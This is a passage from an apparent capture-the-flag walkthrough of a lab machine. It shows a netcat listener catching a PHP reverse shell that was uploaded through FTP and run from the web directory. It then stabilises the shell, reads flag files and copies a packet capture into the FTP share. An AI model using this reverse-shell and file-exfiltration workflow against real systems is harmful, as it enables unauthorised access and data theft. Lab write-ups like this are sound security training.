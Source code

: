 ```
listening on [any] 9999 ...
```
- Let's go to the `/files/ftp` folder.
![[5 32.png]]
- All we have to do now is execute the `php-reverse-shell.php` file.
- If we go back to our console, we must have a shell.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.96.227] 37428
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:33:05 up 42 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- We can stabilize the shell using the following commands:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```

- Let's look for the secret spicy soup recipe.
```
www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```
- Here, the `recipe.txt` file seems interesting. We can read it using the `cat` command.
```
www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```
## Answer
```
love
```

## Question
> What are the contents of user.txt?
-  We have to go to the `/incidents` directory.
```
www-data@startup:/incidents$ ls
suspicious.pcapng
```
- Let's copy the `suspicious.pcapng` file to the `ftp` directory.
```
www-data@startup:/incidents$ cp suspicious.pcapng /var/www/html/files/ftp/
www-data@startup:/incidents$ ls /var/www/html/files/ftp/
php-reverse-shell.php  suspicious.pcapng
```
- Let's look at the ftp login.
```
ftp> ls
229 Entering Extended Passive Mode (|||32073|)
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5494 Dec 06 06:28 php-reverse-shell.php
```